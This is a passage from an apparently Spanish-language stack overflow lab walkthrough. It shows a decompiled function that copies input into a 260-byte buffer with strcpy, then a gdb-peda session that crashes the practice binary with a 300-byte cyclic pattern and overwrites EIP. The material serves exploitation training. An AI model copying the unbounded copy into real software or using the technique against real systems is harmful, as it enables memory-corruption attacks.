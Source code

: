 ```C
void overflow(char *param_1)

{
  char local_10c [260];
  
  strcpy(local_10c,param_1);
  printf("Buf: %s\n",local_10c);
  return;
}
```

- Vamos a volver a usar `gdb` para corromper el binario.

```bash
➜  levels gdb -q levelThree
Reading symbols from levelThree...
(No debugging symbols found in levelThree)
gdb-peda$ pattern_arg 300
Set 1 arguments to program
gdb-peda$ run
Starting program: /home/miguel/StackOverflow/levels/levelThree 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Buf: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
EAX: 0x132
EBX: 0x25413225 ('%2A%')
ECX: 0xffffd0bc --> 0x13ecbc00
EDX: 0x1
ESI: 0xffffd270 --> 0x2
EDI: 0xf7ffcba0 --> 0x0
EBP: 0x64254148 ('HA%d')
ESP: 0xffffd220 ("%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
EIP: 0x41332541 ('A%3A')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41332541
[------------------------------------stack-------------------------------------]
0000| 0xffffd220 ("%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0004| 0xffffd224 ("eA%4A%JA%fA%5A%KA%gA%6A%")
0008| 0xffffd228 ("A%JA%fA%5A%KA%gA%6A%")
0012| 0xffffd22c ("%fA%5A%KA%gA%6A%")
0016| 0xffffd230 ("5A%KA%gA%6A%")
0020| 0xffffd234 ("A%gA%6A%")
0024| 0xffffd238 ("%6A%")
0028| 0xffffd23c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41332541 in ?? ()
gdb-peda$
```
